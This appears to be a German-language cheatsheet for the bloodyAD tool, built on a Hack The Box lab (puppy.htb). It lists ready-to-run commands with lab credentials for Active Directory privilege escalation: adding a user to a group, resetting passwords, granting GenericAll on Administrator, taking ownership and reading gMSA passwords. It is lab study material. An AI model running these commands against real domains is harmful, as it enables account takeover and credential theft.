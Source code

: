 
## 🩸 BloodyAD Cheatsheet

<br>

🧩 **Retrieve User Information**

Fragt Active Directory-Objekt (z. B. einen Benutzer) ab und zeigt alle LDAP-Attribute des Zielobjekts.
```zsh
bloodyAD --host 10.129.204.169 -d puppy.htb -u levi.james -p 'KingofAkron2025!' get object administrator
```
<br>

🧩 **Add User To Group**

Zeigt die Zugriffsrechte (ACLs) auf das Gruppenobjekt $group_name im Active Directory. 
Anhand der Rechte kann dann die Mitgliedschaft hinzugefügt werden, sofern GenericAll, WriteProperty, WriteDACL etc. vorhanden sind.
```zsh
bloodyAD --host 10.129.204.169 -d puppy.htb -u levi.james -p 'KingofAkron2025!' get writeable 
bloodyAD --host 10.129.204.169 -d puppy.htb -u levi.james -p 'KingofAkron2025!' add groupMember DEVELOPERS levi.james
```

<br>

🧩 **Change Password**

Fragt mit bloodyAD die Zugriffssteuerungsliste (ACL) eines Active Directory-Objekts und anschließend wird das Passwort vom Zielobjekt geändert, sofern Berechtigungen vorhanden sind.
```zsh
bloodyAD --host 10.129.204.169 -d puppy.htb -u levi.james -p 'KingofAkron2025!' get writeable 
bloodyAD --host 10.129.204.169 -d puppy.htb -u levi.james -p 'KingofAkron2025!' set password $target_username $new_password
```

<br>

🧩 **Give User GenericAll Rights**

Versucht, dem Benutzer Levi.James die GenericAll-Berechtigung auf das AD-Objekt mit dem Distinguished Name Administrator zu geben.
"Füge der Access Control List (ACL) des Administrator-Objekts hinzu, dass levi.james volle Rechte bekommt.“
```zsh
bloodyAD --host 10.129.204.169 -d puppy.htb -u levi.james -p 'KingofAkron2025!' add genericAll "CN=Administrator,CN=Users,DC=puppy,DC=htb" levi.james
```

<br>

🧩 **Write Owner**

Mit diesem Befehl überträgst du diesen „Besitz“ auf einen anderen User. In diesem Fall wir levi.james der Besitzer der Gruppe DEVELOPERS
```zsh
bloodyAD --host 10.129.204.169 -d puppy.htb -u levi.james -p 'KingofAkron2025!' set owner "CN=DEVELOPERS,DC=puppy,DC=htb" levi.james

```

<br>

🧩 **ReadGMSAPassword**

Verschlüsseltes Passwort eines gMSA-Kontos (Group Managed Service Account) aus Active Directory abfragen.
```zsh
bloodyAD --host 10.129.204.169 -d puppy.htb -u levi.james -p 'KingofAkron2025!' get object "CN=gmsa-web,CN=Managed Service Accounts,DC=puppy,DC=htb" --attr msDS-ManagedPassword
```


